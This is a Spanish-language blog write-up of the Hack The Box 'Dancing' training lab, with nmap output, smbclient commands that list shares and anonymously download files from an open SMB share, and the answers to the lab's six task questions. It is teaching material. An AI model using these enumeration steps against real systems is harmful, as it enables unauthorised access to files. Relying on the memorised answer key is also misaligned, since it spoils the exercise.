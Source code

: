 ```yaml
---
title: HTB - Tier 0 - Dancing Writeup
date: 2022-08-09 09:20:00 +0800
categories: [HTB, Writeup]
tags: [htb, writeups]     # TAG names should always be lowercase
---
```


Este post forma parte de la serie **Tier 0** del **Starting Point** de [HTB](https://app.hackthebox.com/starting-point) que iniciamos [aquí]({% post_url 2022-08-09-htb-writeup-tier0-meow %}).

## Dancing

El primer paso será iniciar la máquina (para lo que previamente tendremos que tener establecida nuestra conexión VPN)

![](/assets/posts/20220809/img04.png)

Copiamos la IP del equipo remoto, en mi caso *10.129.186.250*, y lanzamos un **nmap**.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier0]
└─$ nmap -A 10.129.186.250
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-09 12:34 CEST
Nmap scan report for 10.129.186.250
Host is up (0.081s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2022-08-09T14:35:07
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
|_clock-skew: 3h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.54 seconds
```

Tenemos el puerto *445/tcp* abierto (SMB ?) y con el servicio *microsoft-ds* escuchando.

Utilizamos **smbclient** para conectarnos y sacar un listado de los recursos disponibles con el comando ```-L```&nbsp;. Como no tenemos password, cuando nos la pide le damos al Enter.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier0]
└─$ smbclient -L 10.129.186.250
Password for [WORKGROUP\ewan67]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.186.250 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Probamos a conectarnos a cada uno de los recursos que aparecen en el listado anterior a ver si alguno nos deja entrar sin contraseña. (Spoiler: el único que rula es el último).

Una vez dentro, brujuleamos y nos descargamos lo que nos parezca interesante.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/HTB/Tier0]
└─$ smbclient \\\\10.129.186.250\\WorkShares
Password for [WORKGROUP\ewan67]:
Try "help" to get a list of possible commands.
smb: \> ls -la
NT_STATUS_NO_SUCH_FILE listing \-la
smb: \> ls
  .                                   D        0  Mon Mar 29 10:22:01 2021
  ..                                  D        0  Mon Mar 29 10:22:01 2021
  Amy.J                               D        0  Mon Mar 29 11:08:24 2021
  James.P                             D        0  Thu Jun  3 10:38:03 2021

                5114111 blocks of size 4096. 1732567 blocks available
smb: \> cd Amy.J
smb: \Amy.J\> ls
  .                                   D        0  Mon Mar 29 11:08:24 2021
  ..                                  D        0  Mon Mar 29 11:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 12:00:37 2021

                5114111 blocks of size 4096. 1732567 blocks available
smb: \Amy.J\> get worknotes.txt
getting file \Amy.J\worknotes.txt of size 94 as worknotes.txt (0.3 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \Amy.J\> cd ..
smb: \> cd James.P\
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 10:38:03 2021
  ..                                  D        0  Thu Jun  3 10:38:03 2021
  flag.txt                            A       32  Mon Mar 29 11:26:57 2021

                5114111 blocks of size 4096. 1732440 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.1 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \James.P\>
```

En nuestro directorio de trabajo tendremos descargado el fichero *flag.txt* con la bandera correspondiente.

## Respuestas:

* <strong>Task 1</strong>: Server Message Block
* <strong>Task 2</strong>: 445
* <strong>Task 3</strong>: microsoft-ds
* <strong>Task 4</strong>: -L
* <strong>Task 5</strong>: WorkShares
* <strong>Task 6</strong>: get